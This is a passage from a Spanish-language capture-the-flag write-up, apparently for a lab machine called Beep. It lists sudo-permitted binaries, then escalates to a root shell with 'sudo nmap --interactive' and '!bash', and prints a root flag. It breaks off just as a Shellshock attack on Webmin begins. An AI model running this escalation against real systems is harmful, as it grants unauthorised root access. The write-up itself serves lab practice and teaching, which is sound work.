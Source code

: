 ```ruby
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
bash-3.2$ 

```
Existen varios binarios para realizar una escaldad de privilegios, es te caso vamos hacerlo con nmpa, pero también se puede con chmod y muchos mas.
vemos si nmap tiene el modo interactivo, las versiones antiguas de nmap nos permiten entrar en un modo interactivo que al usarlo se hace como root y esto es una brecha gigante por lo siguiente:

```ruby
bash-3.2$ sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !bash
bash-3.2# whoami
root
bash-3.2# 

```

<h3 style="text-align:center" id="flags">FLAGS</h3><hr>

```ruby
bash-3.2# cat root.txt 
b5ea837bb88589a63d81c657cbe15c4c
bash-3.2# 

```

<h3 style="text-align:center" id="metodo-shellshock">MÉTODO SHELLSHOCK</h3><hr>


Lo haremos con un ataque de shellshock 
En el puerto 10000 esta corriendo un servicio llamado miniserv Webmin
![](../assets/images/Beep/webmini.png)
![](../assets/images/Beep/session.png)